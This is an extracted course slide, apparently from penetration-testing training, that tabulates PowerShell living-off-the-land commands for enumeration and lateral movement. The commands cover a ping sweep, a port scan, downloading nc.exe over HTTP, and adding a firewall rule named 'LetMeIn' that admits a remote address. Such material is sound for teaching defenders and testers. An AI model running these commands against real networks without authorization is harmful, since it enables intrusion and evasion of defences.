

Understanding How to Perform Lateral Movement, Detection Avoidance, and Enumeration
Legitimate Utilities and Living-off-the-Land (Cont.)

| PowerShell Command | Description |
| --- | --- |
| 1..255 | % {echo "10.1.2.$\_"; ping -n 1 -w 100 10.1.2.$\_ | SelectString ttl} | Launches a ping sweep to the 10.1.2.0/24 network |
| 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect ("10.1.2.3",$\_)) "Port $\_ is open!"} 2>$NULL | Launches a port scan to the 10.1.2.3 hosts (scans for ports 1 through 1024) |
| (New-object System.Net.WebClient).DownloadFile ("http://10.1.2.3/nc.exe", "nc.exe") | Fetches a file via HTPP (similar to the wget Linux command) |
| Get-HotFix | Obtains a list of all installed hotfixes |
| cd HKLM: \         ls | Navigates the Windows registry |
| Get-NetFirewallRule -all New-NetFirewallRule -Action Allow -DisplayName LetMeIn - RemoteAddress 10.6.6.6 | Lists and modifies the Windows firewall rules |
| Get-Command | Gets a list of all available commands |

38